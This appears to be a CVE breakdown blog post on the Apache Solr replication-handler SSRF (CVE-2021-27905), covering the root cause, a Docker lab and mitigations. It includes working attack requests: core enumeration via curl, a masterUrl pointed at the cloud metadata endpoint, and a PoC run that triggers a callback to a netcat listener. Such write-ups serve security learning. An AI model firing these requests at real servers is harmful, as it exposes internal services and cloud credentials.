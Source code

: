 ```yaml
---
title: "CVE-2021-27905"
date: 2025-10-19
draft: false
summary: "Understanding CVE-2021-27905 - Apache Solr SSRF"
tags: ["ssrf", "blog"]
categories: ["blog"]
series: ["cve breakdown"]
showToc: true
cover:
  image: "https://cdn.ziomsec.com/cve-2021-27905/cover.webp"
  caption: "CVE-2021-27905 Apache Solr SSRF"
  alt: "Apache Solr Cover"
---
```


While performing a security assessment, I came across this vulnerability and did some research on what it was and how it could potentially be exploited in real-world scenarios...

## About CVE-2021-27905

**CVE-2021-27905** is a Server Side Request Forgery vulnerability affecting **Apache Solr** prior to version **8.8.2** that allows remote attackers to make arbitrary HTTP requests to internal or external systems through the replication handler's `masterUrl` parameter, potentially exposing internal services or sensitive cloud metadata.

> **Note**: The script and lab used in this blog can be found on my [Github](https://github.com/RIZZZIOM/CVE-2021-27905)

## Background

**Apache Solr** is an open-source **search platform** built on top of **Apache Lucene** (a Java search library). Think of it as a powerful, customizable "search-as-a-service" engine that developers embed in their own applications. It is used for the following reasons:
- **Full-text search:** indexing and searching documents, logs, or websites quickly.
- **Faceted navigation:** like ecommerce filters (brand, price, category).
- **Analytics:** Solr can run queries with aggregations and sorting efficiently.
- **Scalability:** multiple Solr servers can act as a distributed cluster (SolrCloud).

So in most companies, Solr runs **inside their internal network**, powering searches for websites, product catalogs, enterprise data, or logs.

### Solr Architecture

Solr runs as a **Java web service** (typically on port 8983). It exposes a **REST-like HTTP API**; so almost everything we do (search, upload, admin) is an HTTP request. 

| Component      | Description                                                                                                                                              |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Core**       | A single, independent index within a Solr instance. Each core has its own configuration (`solrconfig.xml`, `schema.xml`) and set of indexed data.        |
| **Collection** | In SolrCloud mode, a “collection” is spread across multiple **cores** on different servers (shards + replicas).                                          |
| **Handlers**   | Endpoints defined in `solrconfig.xml` that perform functions, e.g. `/select` for queries, `/update` for adding docs, `/replication` for syncing indexes. |
| **Admin API**  | `/solr/admin/...` endpoints that show info or perform management tasks.                                                                                  |

Since, identifying a valid `core` is crucial for exploiting the vulnerability, let us understand what a Core is...

### Solr `Cores` And Replication Handlers

A `Core` is a self contained search index + its configuration. For example, we might have:

```
/solr/products
/solr/blog
/solr/logs
```

Each of these is a core. Internally, Solr stores each core's data in

```
/var/solr/data/<CORE_NAME>/
```

There are multiple ways to find core names:
1. Admin API: the admin API endpoint can be used to query core names.

```
curl 'http://IP:PORT/solr/admin/cores?indexInfo=false&wt=json'
```

2. Web UI: when Solr runs without authentication, the base UI itself lists cores in the dropdown menu.

![](https://cdn.ziomsec.com/cve-2021-27905/cores_dropdown.webp)

3. Brute force: in many environments, admins follow predictable names like `gettingstarted`, `collection1`, `core0`, `logs`, `products`, `data`, `search` etc. These parts can be brute forced. 

Once we identify a core name, we can construct our replication endpoint. For example, if the core name is `gettingstarted`, the replication endpoint becomes:

```
/solr/gettingstarted/replication
```

Replication is a Solr feature. When we have multiple Solr nodes (leader-follower setup), we need the followers to copy the latest index files from the leader. This is done using the `ReplicationHandler`.

The request made for replication looks like this:

```
http://IP:PORT/solr/<core>/replication?command=fetchindex&masterUrl=http://leader.internal:8983/solr/<core>
```
> The follower fetches index  data from the leader's URL.

**This is where the vulnerability lies...**

### SSRF

The replication feature is handled by 2 main classes inside **`solr-core`**:
1. **`org.apache.solr.handler.ReplicationHandler`** - this parses the incoming replication requests and reads the `masterUrl` / `leaderUrl` from the HTTP request. In the affected versions, these parameters were not validated.
2. **`org.apache.solr.handler.IndexFetcher`** - this uses that URL to perform the actual HTTP request and pull index files from the provided location. 

Because **`ReplicationHandler`** failed to validate the `masterUrl`, attackers could supply any arbitrary URL. If the URL pointed to an external source, Solr would connect to it.

Anyone who could reach the HTTP port, could send a request given below and make Solr fetch an internal resource:

```
http://IP:PORT/solr/gettingstarted/replication?command=fetchindex&masterUrl=http://169.254.169.254/latest/meta-data/
```

This caused Solr to make an outbound request from the server itself, leading to **Server-Side Request Forgery (SSRF)**.

## Exploiting The Vulnerability

### Lab Setup

- A local lab can be setup by running the following commands:

```shell
# clone the repository
git clone https://github.com/RIZZZIOM/CVE-2021-27905.git
cd CVE-2021-27905/lab/ # contains docker-compose.yml

# run Apache Solr 8.10.1 using docker
docker compose up -d

# verify accessibility
docker ps
curl 'http://127.0.0.1:8983/solr'
# By default, the loopback IP is used to host Solr, to make it accessible externally, you can edit the 'docker-compose.yml' file. 
```

> In the lab, since we started Solr for the first time with `solr-precreate gettingstarted`, it automatically created a core named `gettingstarted` using the default configset.

### Blind SSRF

- Since our Solr instance is running on 8983, we can make the server make a callback to another system on the same network.
- Start a netcat listener on a different system:

```shell
nc -lnvp 1337
```

- Then we can run the PoC to get a callback on our **netcat** listener:

```shell
$ python3 cve-2021-27905.py --target http://127.0.0.1:8983 --payload http://192.168.1.103:1337/test
[+] Performing SSRF
[+] SSRF Exploit Sent Successfully
```

![](https://cdn.ziomsec.com/cve-2021-27905/ssrf_callback.webp)

> While researching this topic, I came across a blog post that demonstrates how it's even possible to achieve **RCE** through this method. It's definitely worth a read for anyone interested:  https://www.hacefresko.com/posts/rce-on-solr-server-via-replication

## Mitigations

Solr maintainers patched this vulnerability by fixing the `ReplicationHandler` to:
- Validate that `masterUrl` / `leaderUrl` points only to approved hosts.
- Restrict acceptable URL schemas (`http`, `https`)
- Harden remote streaming features.
- Recommend admins to secure `/replication` with authentication or remove it entirely if unused.

## References

- https://svn.apache.org/repos/infra/sites/solr/docs/8_8_1/solr-core/org/apache/solr/handler/ReplicationHandler.html
- https://nvd.nist.gov/vuln/detail/CVE-2021-27905
- https://github.com/veracode-research/solr-injection

---

That concludes my blog!
Until next time :)

---

